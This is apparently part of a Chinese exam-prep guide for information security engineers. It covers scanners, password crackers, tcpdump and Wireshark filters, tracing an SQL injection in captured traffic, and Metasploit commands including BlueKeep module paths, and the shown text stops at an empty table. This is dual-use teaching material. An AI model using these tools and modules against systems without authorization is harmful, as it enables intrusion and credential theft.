<div align="center">

# 课件精讲·官方教材（第 5 / 11 卷）

[⬅ 上一卷](04_%E8%AF%BE%E4%BB%B6%E7%B2%BE%E8%AE%B2.md)　·　[📚 总目录](README.md)　·　[下一卷 ➡](06_%E5%AE%98%E6%96%B9%E6%95%99%E6%9D%90.md)

**本卷内容**：第 5 部分 / 第 1 部分

</div>

> [!NOTE]
> 单文件体积超出 GitHub 渲染上限会导致整页不显示，故全文拆卷。**总目录、材料覆盖表与自检清单见 [README.md](README.md)**。

## 📑 本卷目录

- [📘 一、《2026 中级信息安全工程师 课件合集（全 40 讲）》精讲要点 · 第 5 部分](#-一2026-中级信息安全工程师-课件合集全-40-讲精讲要点--第-5-部分)
  - [2026 中级信息安全工程师 · 课件精讲（part05）](#2026-中级信息安全工程师--课件精讲part05)
    - [目录总览](#目录总览)
  - [第一讲 · 常用安全工具](#第一讲--常用安全工具)
    - [📖 本讲目录](#-本讲目录)
    - [01. 扫描器](#01-扫描器)
    - [02. 密码破解](#02-密码破解)
    - [03. 嗅探抓包](#03-嗅探抓包)
    - [04. 渗透测试](#04-渗透测试)
    - [05. 主机监测](#05-主机监测)
    - [06. 安全管理 — SSH](#06-安全管理--ssh)
  - [第二讲 · 常见漏洞代码分析](#第二讲--常见漏洞代码分析)
    - [📖 本讲目录](#-本讲目录-1)
    - [01. SQL 注入](#01-sql-注入)
    - [02. 命令注入](#02-命令注入)
    - [02-B. 命令注入、代码执行：区别和联系](#02-b-命令注入代码执行区别和联系)
    - [03. XSS 跨站脚本攻击](#03-xss-跨站脚本攻击)
    - [04. CSRF 跨站请求伪造](#04-csrf-跨站请求伪造)
    - [05. 文件包含](#05-文件包含)
    - [06. 文件上传](#06-文件上传)
    - [07. 缓冲区溢出](#07-缓冲区溢出)
    - [📦 DVWA](#-dvwa)
  - [第三讲 · 安卓系统安全](#第三讲--安卓系统安全)
    - [📖 本讲目录](#-本讲目录-2)
    - [01. Android 系统架构](#01-android-系统架构)
    - [02. Android 基本组件](#02-android-基本组件)
    - [03. Android 权限机制](#03-android-权限机制)
    - [04. 应用程序策略文件](#04-应用程序策略文件)
    - [05. 目录、最小权限](#05-目录最小权限)
  - [⚠️ 疑点（原文疑似错误，均**原样保留**，此处仅标注）](#-疑点原文疑似错误均原样保留此处仅标注)
- [📗 二、《网络信息安全工程师教程》官方教材精要（OCR） · 第 1 部分](#-二网络信息安全工程师教程官方教材精要ocr--第-1-部分)
  - [《网络信息安全工程师教程》OCR 原文整理（Part 01）](#网络信息安全工程师教程ocr-原文整理part-01)
    - [第 1 章 网络信息安全概述](#第-1-章-网络信息安全概述)
    - [第 2 章 网络攻击原理与常用方法](#第-2-章-网络攻击原理与常用方法)
    - [第 3 章 密码学基本理论](#第-3-章-密码学基本理论)
    - [第 4 章 网络安全体系与安全模型](#第-4-章-网络安全体系与安全模型)
    - [第 5 章 物理与环境安全技术](#第-5-章-物理与环境安全技术)
    - [第 6 章 认证技术与原理](#第-6-章-认证技术与原理)
    - [第 7 章 访问控制技术原理与应用](#第-7-章-访问控制技术原理与应用)
    - [⚠️ 疑点与 OCR 修正清单](#-疑点与-ocr-修正清单)

---

## 📘 一、《2026 中级信息安全工程师 课件合集（全 40 讲）》精讲要点 · 第 5 部分

### 2026 中级信息安全工程师 · 课件精讲（part05）

> 原文区间：**Page 828 — Page 919**
> 涵盖三讲：
> 1. **常用安全工具**（Page 849 — 878）
> 2. **常见漏洞代码分析**（Page 879 — 899）
> 3. **安卓系统安全**（Page 900 — 919）
>
> 说明：本部分原文由「同一课件的两轮排版」叠加而成（第一轮 Page 828~848、第二轮 Page 852~877 内容同源，第二轮更详尽）。整理时已**合并两轮的全部知识点**，第二轮新增/修正的细节一并保留，未做任何删减。

---

#### 目录总览



---

### 第一讲 · 常用安全工具

> 讲师：至强老师　QQ：2976033　交流Q群：297744872　公众号：至立软考　TB店：至立学院

#### 📖 本讲目录

| 序号 | 主题 |
| --- | --- |
| 1 | 扫描器 |
| 2 | 密码破解 |
| 3 | 嗅探抓包 |
| 4 | 渗透测试 |
| 5 | 主机监测 |
| 6 | 安全管理 |



---

#### 01. 扫描器

##### 🔍 Nmap

**📌 概述**

| 项目 | 要点 |
| --- | --- |
| 全称 | **Nmap（Network Map）** |
| 定位 | 一个**网络连接端扫描软件** |
| 作用 | 用来扫描网上电脑开放的**网络连接端**；确定**哪些服务运行在哪些连接端**；并且**推断计算机运行哪个操作系统** |

**📌 常见使用方法和参数**

| 项目 | 要点 |
| --- | --- |
| 扫描单个目标地址 | 在 `nmap` 后面**直接添加目标地址**即可 |
| 扫描一个范围的目标地址 | 可以指定扫描一个**连续的网段**，中间使用 `-` 连接；也可以扫描**网段**；也可以扫描 **txt 文件列出的地址**等等 |
| 扫描某些端口 | `-p`：只扫描指定的端口；**`-p-` 代表全端口扫描** |
| 服务版本探测 | `-sV`：扫描端口的**同时**探测每个开放端口上运行的**服务的版本信息**。比如 80 端口上运行的 Web 服务器版本 |
| 操作系统识别 | `-O`：通过**分析目标主机对网络请求的响应特征**来猜测其操作系统类型 |
| 脚本（漏洞检测） | Nmap 支持多种脚本，可用来自动化检测各种漏洞。如检测「永恒之蓝」**MS17-010** 漏洞：<br/>`nmap --script=smb-ms17-010 192.168.1.1` |

> [!IMPORTANT]
> 必背参数速记：**`-p` 指定端口 / `-p-` 全端口 / `-sV` 服务版本 / `-O` 操作系统 / `--script` 脚本**。

> [!TIP]
> 「永恒之蓝」= **MS17-010**，Nmap 检测脚本名 `smb-ms17-010`。

---

##### 🔍 Nessus

**📌 概述**

| 项目 | 要点 |
| --- | --- |
| 学习要求（原文第一轮表述） | **简单了解一下** |
| 功能覆盖 | **主机发现、漏洞检测、配置审计、恶意软件扫描**等 |
| 定位 | 是**安全运维与渗透测试的常用工具** |

**📌 使用流程（界面演示）**

| 步骤 | 界面节点 |
| --- | --- |
| 1 | 登录界面 |
| 2 | 新建扫描 |
| 3 | 新建扫描配置 |
| 4 | 启动扫描 |
| 5 | 扫描结果 |
| 6 | 漏洞信息查看 |


---

##### 🔍 Tiger

**📌 概述（两轮表述合并）**

| 项目 | 要点 |
| --- | --- |
| 定位 | **主机漏洞扫描器**；一款**无需建立网络连接即可运行**的**本地**主机漏洞扫描工具 |
| 是否需网络连接 | **不需要通过建立网络连接就可以进行** |
| 技术原理 | 通过**检查本地系统中关键性文件的内容及安全属性**（内容、权限配置及安全属性）来发现漏洞 |
| 可发现的隐患 | **配置不当**、**用户弱口令**、**有漏洞的软件版本**等 |
| 用途 | **本地系统安全审计与漏洞排查**的重要工具 |

> [!IMPORTANT]
> **Tiger 是"主机型 / 本地型"漏洞扫描器，不依赖网络**。这一点常与 Nessus（网络型 / 分布式、需建立连接）对比考查。



---

#### 02. 密码破解

##### 🔑 John the Ripper

**📌 概述**

| 项目 | 要点 |
| --- | --- |
| 性质 | **免费的开源软件**（免费开源的密码破解工具） |
| 定位 | **基于主机的快速的密码破解工具**；主打**基于主机的高速破解能力** |
| 用途 | 在**已知密文**的情况下尝试**破解出明文**的密码破解软件 |
| 支持算法 | 支持**大多数**的加密算法，如 **DES、MD4、MD5** 等（以及绝大多数主流哈希/加密算法） |
| 支持架构 | **Unix、Linux、Windows、DOS 模式、BeOS、OpenVMS** |
| 应用场景 | 信息安全领域常用的**密码审计与测试工具** |

> [!WARNING]
> 原文特别提醒（易错/合规提醒）：
> **JtR 确实支持 `DES`、`MD4`、`MD5` 以及绝大多数主流哈希/加密算法，但"支持"不等于"一定能破出来"**——能否成功还原明文，核心取决于**密码本身的强度和复杂度**。
> 这类工具**仅应用于合法授权的密码安全审计和渗透测试场景**，未经授权对他人系统进行密码破解属于**违法行为**。

---

##### 🔑 LOphtCrack

**📌 概述（两轮表述合并）**

| 项目 | 要点 |
| --- | --- |
| 定位 | **常用于破解 Windows 系统口令**的经典工具 |
| 猜解方法（第一轮） | **词典攻击、组合攻击、强行攻击**等多种口令猜解方法 |
| 猜解方式（第二轮） | **字典攻击、暴力攻击、混合攻击**等多种猜解方式 |
| 特性（第一轮） | 最显著的特性是：**调度**、**64 位 Windows 版本的哈希提取**、**多处理器算法**以及**网络监控和解码** |
| 特性（第二轮） | **多线程高速运算**、**64 位系统哈希提取**、**多处理器并行加速**、对**网络流量中哈希值的监控与解码**能力 |
| 用途 | **应急响应与渗透测试中获取系统权限**的重要工具 |

> [!TIP]
> 记忆：**LOphtCrack → Windows 口令**；**John the Ripper → 多平台 / 已知密文破解明文**。
> 特性四件套：**哈希提取（64 位）+ 多处理器 / 多线程加速 + 网络监控解码 + 多种猜解方式**。

---

#### 03. 嗅探抓包

##### 🕸️ Tcpdump

**📌 概述**

| 项目 | 要点 |
| --- | --- |
| 平台 | **Linux 系统下**的一款**抓包命令集**（经典命令行抓包工具） |
| 工作原理 | **基于网卡抓取流动在网卡上的数据包**（监听并抓取流经的原始网络数据包） |
| 用途 | **网络安全分析、故障排查与协议学习**的核心工具 |

**📌 tcpdump 表达式**

| 类别 | 关键字与说明 |
| --- | --- |
| **① 数据类型定位** | `host`（单主机，如 `host 192.168.130.1`）、`net`（网段，如 `net 192.168.130.0`）、`port`（端口，如 `port 80`）。**未指定类型时默认匹配 `host`** |
| **② 传输流向界定** | `src`（源地址，如 `src 192.168.130.1`）、`dst`（目的地址，如 `dst net 192.168.130.0`），支持组合逻辑（`dst or src`、`dst and src`）。**默认是监控主机对主机的 `src` 和 `dst`，即默认监听双向流量（本机与目标主机的所有数据）** |
| **③ 网络协议筛选** | 直接指定协议类型：`ip`（IPv4）、`arp`（地址解析协议）、`rarp`（反向 ARP）、`udp`（用户数据报协议）、`tcp`（传输控制协议） |
| **④ 逻辑与辅助运算** | 运算类型（逻辑运算符）：`or`、`and`、`not`、`!`；<br/>辅助功能型：`gateway`（网关流量）、`less`（按数据包大小过滤，"小于"）、`broadcast`（广播包）、`greater`（"大于"） |

> [!IMPORTANT]
> 原文第一轮对「协议关键字」只列举了 `ip、arp、rarp、udp`；第二轮补充完整为 `ip、arp、rarp、tcp、udp`。整理时**两份都保留**，以第二轮（含 `tcp`）为准更完整。



**📌 TCP 报文 Flags（标志位）**

TCP 报文的标志位是**分析连接状态的关键**，常见标志含义：

| Flag | 含义 |
| --- | --- |
| **`[S]` SYN** | 同步序列编号，TCP「**三次握手**」第一步（开始连接） |
| **`[P]` PSH** | 推送数据 |
| **`[F]` FIN** | 结束连接，触发「**四次挥手**」流程 |
| **`[R]` RST** | 重置连接，强制关闭异常的连接 |
| **`[.]` 无特殊标志** | **除上面四种类型外的其他情况**，通常代表 **ACK（确认报文）** 或 **URG（紧急数据）**，是连接维持与数据传输的基础 |

> [!TIP]
> 口诀：**S 起（SYN 握手）→ P 推（PSH 推数据）→ F 终（FIN 挥手）→ R 重（RST 强制断）→ 点号是 ACK/URG**。

**📌 示例命令**

| 命令 | 说明 |
| --- | --- |
| `tcpdump` | 抓取通过**第一个网卡**的数据包，并将信息打印在屏幕上**实时显示**出来 |
| `tcpdump -i eth0` | 抓取通过 **eth0 网卡**的数据包，信息实时打印在屏幕。**`-i` 表示接口**，后面跟网卡名字 |
| `tcpdump src host 1.2.3.4` | 抓取**从主机发出的流量** |
| `tcpdump tcp port 23 and host 210.27.48.3` | 抓取主机上**端口为 23** 的应用**发出和接收的所有 TCP 协议包** |
| `tcpdump -i ens33 icmp and host 20.12.151.195 -w ping.pcap` | 抓取**主机的 ping 包并保存**（`-w` 写入文件） |
| `tcpdump -i lo -nn -X 'port 21'` | 以 **16 进制 + ASCII 格式**显示 **FTP（21 端口）**数据包内容 |

**📌 `-X` 与 `-nn` 参数**

| 参数 | 含义 |
| --- | --- |
| `-X` | **同时输出十六进制和 ASCII** |
| `-nn` | **不做域名 / 端口反查**（直接显示 IP 与端口号，不解析成域名和服务名） |
| `-w` | 把抓取结果**写入文件**（如 `ping.pcap`） |
| `-i` | 指定**接口（网卡）** |

**📌 FTP 明文抓包可获取的信息（示例：`-i lo -nn -X 'port 21'`）**

| 载荷 | 源端口 | 目的端口 | 方向 |
| --- | --- | --- | --- |
| `220 (vsFTPd 2.0.1)` 欢迎横幅 | `0015` = **21** | `80ab` = **32939** | 服务端 → 客户端 |
| `USER dmtsai` **用户名明文** | `80ab` = **32939** | `0015` = **21** | 客户端 → 服务端 |
| `PASS mypasswordisyou` **密码明文** | `80ab` = **32939** | `0015` = **21** | 客户端 → 服务端 |

> [!IMPORTANT]
> **FTP（21 端口）是明文协议**，抓包可直接得到**用户名与密码**。这是"嗅探危害"最典型的示例。
> 端口十六进制换算：**21 = `0x0015`**，**32939 = `0x80AB`**。

---

##### 🕸️ Wireshark

**📌 概述**

| 项目 | 要点 |
| --- | --- |
| 定位 | **使用最广泛**的一款**开源抓包软件**；全球最广泛使用的**开源网络协议分析器** |
| 接口 | 使用 **WinPCAP** 作为接口，**直接与网卡进行数据报文交换**（通过 WinPCAP 驱动直连网卡，捕获原始数据报文） |
| 能力 | 支持**上千种协议解析**，可直观展示数据包的**层级结构与详细内容** |
| 用途 | 常用来**检测网络问题、攻击溯源、分析底层通信机制**；排查网络故障、分析通信协议、追踪网络攻击 |
| 应用价值 | 不仅用于网络故障排查，更是**安全分析的利器**，可直观识别**异常流量、恶意数据包特征**，是渗透测试与安全运维的必备技能 |

**📌 三大窗口**

| 窗口 | 说明 |
| --- | --- |
| **捕获界面** | 实时展示网络流量入口，直观呈现数据包的**时间戳、源目地址、协议类型与长度**等关键信息，是流量分析的**第一视角** |
| **分组详情窗口** | **TCP/IP 协议模型的结构化"解剖台"**，从**物理层到应用层**逐层拆解数据包字段，清晰呈现**数据封装与协议交互**的细节，是**理解网络通信原理的最佳窗口**（原文：分组详情窗口是 TCP/IP 模型最好的结构化展示） |
| **分组字节流窗口** | 见下表 |

**📌 分组字节流窗口**

| 项目 | 要点 |
| --- | --- |
| 显示形式 | **十六进制与 ASCII 字符对照**形式的分组字节内容 |
| 是否含物理层 | **不包含**物理层的字节，即**数据包传播时的原始字节流** |
| 与分组详情的关系 | **一一对应**：点击字段会选中字节内容；点击某个字节 16 进制值会选中对应的字段 |

**📌 常见字符值（必记）**

| 字符 | 十进制 | 十六进制 |
| --- | --- | --- |
| `A` | **65** | **41** |
| `a` | **97** | **61** |
| `0` | **48** | **30** |

**📌 常见的 IP 地址换算（示例：192.168.229.133）**

| 段 | 十进制 | ÷16 | 高位 | 低位 | 十六进制 |
| --- | --- | --- | --- | --- | --- |
| 1 | 192 | 192÷16=12 余 0 | 12→**C** | 0 | **`C0`** |
| 2 | 168 | 168÷16=10 余 8 | 10→**A** | 8 | **`A8`** |
| 3 | 229 | 229÷16=14 余 5 | 14→**E** | 5 | **`E5`** |
| 4 | 133 | 133÷16=8 余 5 | 8 | 5 | **`85`** |

> 即：`192.168.229.133` → `C0 A8 E5 85`

> [!TIP]
> **ASCII 列里的点号（`·`）表示这个字节没有可显示的字符**，Wireshark / tcpdump **统一用 `·` 占位**。

**📌 过滤器：两种过滤器**

| 过滤器 | 英文 | 生效时机 | 作用 |
| --- | --- | --- | --- |
| **捕捉过滤器** | Capture Filters | **在抓包前设置** | 用于**决定将什么样的信息记录在捕捉结果中** |
| **显示过滤器** | Display Filters | **在抓包后使用** | 用于在**捕捉结果中进行详细查找**，方便 stream 的追踪和排查 |

> [!IMPORTANT]
> - 捕捉过滤器**仅支持协议过滤**；显示过滤器**既支持协议过滤也支持内容过滤**。
> - **两种过滤器的过滤语法并不一样**（不互通），需按需选择。
> - **捕捉过滤器**生效于**数据采集阶段**，语法更简洁；**显示过滤器**生效于**数据分析阶段**，支持更细粒度的匹配。

**📌 基础过滤规则**

| 规则类型 | 示例 |
| --- | --- |
| **协议过滤** | 比较简单，在抓包过滤框中**直接输入协议名**。如 `tcp`，只显示 TCP 协议的数据包列表 |
| **IP 过滤** | `host 192.168.1.100`、`ip.addr == 192.168.1.100`、`ip.src == 192.168.1.100` |
| **端口过滤** | `tcp.port == 80`、`port 80` |

**📌 高级过滤规则**

| 规则类型 | 操作符 / 语法 | 示例与说明 |
| --- | --- | --- |
| **比较操作符** | `==` 等于、`!=` 不等于、`>` 大于、`<` 小于、`>=` 大于等于、`<=` 小于等于 | `tcp.srcport != 80`：显示**源端口除了 80 以外**的所有 TCP 数据流<br/>`ip.ttl <= 10`：显示 IP 报文中 **Time to Live 字段小于等于 10** 的报文 |
| **逻辑运算符** | `&&` 与、`\|\|` 或、`!` 非 | `ip.src==192.168.3.6 and tcp.srcport==8001`：只显示源主机 IP 为 `192.168.3.6` **且**源端口为 `8001` 的报文<br/>`tcp.flags.syn==1 or tcp.flags.ack==1`：只显示 TCP 协议的 **SYN 和 ACK 标志至少有一个为 1** 的报文 |
| **正则表达式** | `matches` | `http.request.url matches "xxx"`：过滤 HTTP 请求 URL 中包含 `xxx` 的数据包<br/>`dns.qry.name matches "xxx"`：过滤 DNS 查询域名中包含 `xxx` 的数据包 |

**📌 TCP/IP 各层次过滤表达式示例**

| 层次 | 筛选目标 | 表达式 |
| --- | --- | --- |
| **数据链路层** | 筛选 **mac 地址**为 `04:f9:38:ad:13:26` 的数据包 | `eth.addr == 04:f9:38:ad:13:26` |
| **数据链路层** | 筛选**源 mac 地址**为 `04:f9:38:ad:13:26` 的数据包 | `eth.src == 04:f9:38:ad:13:26` |
| **网络层** | 筛选 `192.168.1.0` 网段的数据 | `ip contains "192.168.1"` |
| **网络层** | 筛选从 `192.168.1.1` 到 `192.168.1.2` 的数据包 | `ip.src == 192.168.1.1 && ip.dst == 192.168.1.2` |
| **传输层** | 筛选 `12345` 端口和 `80` 端口之间的数据包 | `tcp.port == 12345 && tcp.port == 80` |
| **传输层** | 筛选从 `12345` 端口到 `80` 端口的数据包 | `tcp.srcport == 12345 && tcp.dstport == 80` |
| **应用层** | 筛选 URL 中包含 `.php` 的 http 数据包 | `http.request.url contains ".php"` |
| **应用层** | 筛选内容包含 `username` 的 http 数据包 | `http contains "username"` |

> [!WARNING]
> **易错 / 存疑**：原文第一轮（Page 842）中"筛选 **mac 地址**为 `04:f9:38:ad:13:26` 的数据包"给出的表达式是 **`eth.src == 04:f9:38:ad:13:26`**（与"源 mac"一条重复）；第二轮（Page 866）已修正为 **`eth.addr == 04:f9:38:ad:13:26`**。详见文末「⚠️ 疑点」。

**📌 流量分析示例（SQL 注入溯源）**

| 步骤 | 操作与现象 |
| --- | --- |
| ① **直接筛选协议** | 直接筛选 `http \|\| tls` 找网络传输协议，发现 **`192.168.1.8`** 大量出现，所以直接筛选该 IP |
| ② **找到错误特征** | 找到**不正常的浏览器返回 `5xx`**，打开一个看下请求内容（该 IP 交互中返回大量 **5xx 服务器错误**，暴露后端服务异常响应） |
| ③ **解析请求载荷** | 发现了 **GET 里面有 urlcode（URL）编码过的内容**；深入查看 HTTP 请求，发现 GET 参数携带 URL 编码的可疑字符串 |
| ④ **判定攻击行为** | **明显的 SQL 注入行为**；解码后确认包含 SQL 注入特征语句，证实为针对数据库的恶意渗透 |

**注入载荷原理（原文描述）**：

> 通过 `')` **闭合原有查询语句**，利用 **`WHERE 6489=6489`** 确保后续逻辑执行，并最终通过 **`SELECT 2*`** 制造**大整数溢出错误**，从而**强制数据库在报错信息中泄露敏感数据**。



> [!TIP]
> 这是**报错注入**的典型流量特征：**大量 5xx + GET 参数 URL 编码 + 恒真条件（`6489=6489`）+ 溢出报错（`SELECT 2*`）**。

---

#### 04. 渗透测试

##### 💥 Metasploit

**📌 概述**

| 项目 | 要点 |
| --- | --- |
| 性质 | **开源**的安全漏洞检测工具 |
| 定位 | 为渗透测试工程提供大量的**渗透测试模块和扫描模块**；被称为**最流行的渗透测试工具之一** |
| 提供内容 | 大量的**渗透测试、攻击载荷、攻击技术以及后渗透模块** |

**📌 四大模块类型**

| 模块 | 英文 | 说明 |
| --- | --- | --- |
| **渗透模块** | **exploit** | 是一段**代码程序**，选用渗透模块之后，添加需要的参数，就可以**利用目标主机对应的漏洞开启攻击** |
| **攻击载荷模块** | **payload** | 在使用渗透模块**攻击成功后**，攻击载荷模块开始运行，能够帮助我们**获取目标系统的访问和运行权限** |
| **辅助模块** | **auxiliary** | 包含各种类型的**辅助支持模块**，比如**扫描模块、fuzz 模糊测试漏洞挖掘模块、网络协议欺骗**和其他一些模块 |
| **监听器** | **listener** | 是目标主机被攻击后**主动连接攻击主机**，监听器**在攻击主机上等着被目标主机连接** |



**📌 常用命令**

| 命令 | 说明 |
| --- | --- |
| `msfconsole` | **开启 Metasploit**（启动 Metasploit 控制台） |
| `search cve-2019-0708` | **查询 cve-2019-0708 该漏洞信息** |
| `show payloads` | **显示可用的特定的功能模块** |
| `use 模块名/查找显示处的序号` | **选择模块名，或已查找出漏洞的序号** |
| `exploit` | **启动一个渗透模块** |
| `run` | **启动渗透模块或辅助模块** |

**📌 实战：CVE-2019-0708（BlueKeep）**

查询 `cve-2019-0708`（**BlueKeep**）漏洞信息，命令：`search cve-2019-0708`

| 模块类型 | 模块路径 | 描述 |
| --- | --- | --- |
| `auxiliary/scanner` | `auxiliary/scanner/rdp/cve_2019_0708_bluekeep` | **漏洞检测器**。用于**扫描目标主机是否存在 BlueKeep 漏洞**，**不会执行攻击** |
| `exploit` | `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` | **漏洞利用器**。在**确认目标存在漏洞后**，尝试利用该漏洞**获取系统控制权**（例如，反弹一个 **Meterpreter shell**） |

| 步骤 | 命令/操作 |
| --- | --- |
